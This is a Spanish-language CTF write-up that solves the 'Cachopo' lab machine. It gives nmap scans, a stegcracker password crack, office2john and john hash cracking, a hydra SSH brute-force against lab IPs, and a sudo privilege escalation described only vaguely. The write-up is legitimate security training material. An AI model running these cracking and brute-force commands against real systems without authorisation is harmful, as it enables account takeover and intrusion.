



# CTF Write-up: Cachopo – The Hackers Labs

## Introducción

En este reto CTF, se trabajó sobre la máquina **Cachopo** del laboratorio de The Hackers Labs. Este desafío abarca múltiples técnicas ofensivas como:

- Enumeración de red.
- Esteganografía en archivos.
- Ataques de fuerza bruta.
- Escalada de privilegios.

A través de una correcta identificación de configuraciones erróneas y análisis detallado, se logró comprometer por completo el sistema objetivo. Este write-up documenta cada paso seguido para lograr el acceso a nivel **root**.

---


## 1. Enumeración de Red

### Escaneo de dispositivos en red

```bash
arp-scan -I eth0 --localnet
```
## Uso de NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 192.168.101.128
``` 





### Descubrimiento de hosts activos

```bash
nmap -sP 10.0.2.0/24
```


### Escaneo detallado de puertos y servicios

```bash
nmap -sV -sC -p- 10.0.2.20
```


**Resultado**:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3
80/tcp open  http    Apache httpd 2.4.61
```

- **Puerto 22**: SSH.
- **Puerto 80**: HTTP (con redirección a `cachopo.thl`).

---

## 2. Análisis del Servicio Web

### Acceso inicial

- El sitio web redireccionaba a `http://cachopo.thl/`.
- Se añadió `10.0.2.20 cachopo.thl` a `/etc/hosts`.

### Descarga de archivo sospechoso

- Se descargó una imagen JPG desde el sitio.
- La imagen estaba protegida y contenía información oculta.

---

## 3. Esteganografía

###  Uso de StegCracker

```bash
stegcracker imagen.jpg /usr/share/wordlists/rockyou.txt
```

**Contraseña obtenida**: `doggies`

- Se extrajo un archivo oculto desde la imagen.
- Dentro, se encontró un archivo llamado `Cocineros`.

---

## 4. Análisis del Archivo “Cocineros”

### Verificación de tipo de archivo

```bash
file Cocineros
```

→ Se detectó como archivo `.docx`.

### Extracción de hash con `office2john`

```bash
office2john Cocineros > hash.txt
```

### Ataque de fuerza bruta

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Contraseña recuperada**: `horse1`

---

## 5. Análisis del Documento

- Al abrir el documento (`Cocineros.docx`) con LibreOffice, se encontraron **tres nombres**.

Estos se usaron como posibles usuarios para ataque SSH:

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.20 -t 4
```

---

## 6. Acceso a SSH

Una vez hallado el usuario y contraseña correctos, se accedió al sistema vía SSH:

```bash
ssh usuario@10.0.2.20
```

---

## 7. Escalada de Privilegios

### Ver comandos con `sudo`:

```bash
sudo -l
```

- Se identificó un **binario vulnerable** con permisos sudo.

### Ejecución del binario vulnerable

- Al ejecutarlo, se logró acceso a **root** gracias a una mala configuración de permisos.

---

## 🏁 8. Conclusión

Este CTF nos permitió aplicar varias técnicas clave de pentesting:

- Enumeración de red y servicios.
- Esteganografía aplicada.
- Ataques de fuerza bruta a servicios.
- Escalada de privilegios basada en binarios vulnerables.

📢 ¡Acceso root conseguido!

---

## 📷 Evidencia


